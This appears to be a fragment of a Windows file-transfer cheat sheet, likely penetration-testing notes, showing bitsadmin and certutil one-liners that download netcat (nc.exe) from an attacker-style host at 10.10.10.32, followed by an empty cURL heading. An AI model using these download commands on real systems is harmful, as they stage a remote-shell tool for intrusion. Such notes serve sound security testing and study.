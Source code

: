 # CMD

### 1) Bitsadmin

    bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe

### 2) certutil

    certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe

### 3) cURL

